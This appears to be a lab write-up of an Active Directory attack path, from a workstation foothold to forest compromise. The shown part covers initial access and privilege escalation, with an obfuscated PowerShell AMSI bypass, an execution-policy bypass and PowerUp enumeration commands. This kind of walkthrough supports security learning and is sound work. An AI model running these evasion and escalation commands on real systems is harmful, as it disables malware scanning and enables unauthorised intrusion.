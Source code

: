 ## attack path

gain a foothold on the user workstation.

then, move laterally to the UAT and Dev servers, exploiting their looser security.

next, leverage access to compromise the production server.

abuse the production server's privileges to attack the `Nebula` domain controller.

finally, exploit the trust relationship to compromise the `Cosmos` domain controller and the entire forest.

# target 1: the foothold

the seemingly innocuous user workstation is the entry point into the network. in a typical enterprise environment, these workstations are the most numerous and often considered low-hanging fruit for attackers. employees use them for daily tasks and so they're often less strictly controlled than servers.

the challenge is to elevate privileges and gather crucial information about the domain structure...without raising any alarms. 

another thing about workstations: they often have vulnerabilities, outdated software, and misconfigurations. they can also be treasure troves of information, like cached credentials.

## initial access + privilege escalation

first, let's disable AMSI (Antimalware Scan Interface). AMSI is designed to prevent malicious scripts from running, so i'll have to write an obfuscated command to evade detection by signature-based security tools.

```sh
PS C:\bilal\AD> sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]("{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )
```

now i can run my own tools without interference.

next, let's change the execution policy.

```sh
PS C:\bilal\AD> Powershell -ep bypass
```

this launches PowerShell with the execution policy set to `bypass`. the execution policy is a safety feature that controls the conditions under which PowerShell loads configuration files + runs scripts. by bypassing it, scripts can be run without restrictions.

i then used `PowerUp` to find vectors of privilege escalation. using it along with `Invoke-AllChecks` runs a series of checks to identify vectors like misconfigurations, vulnerable services, or unquoted service paths.

```sh
PS C:\bilal\AD> .\PowerUp.ps1
PS C:\bilal\AD> Invoke-AllChecks
```
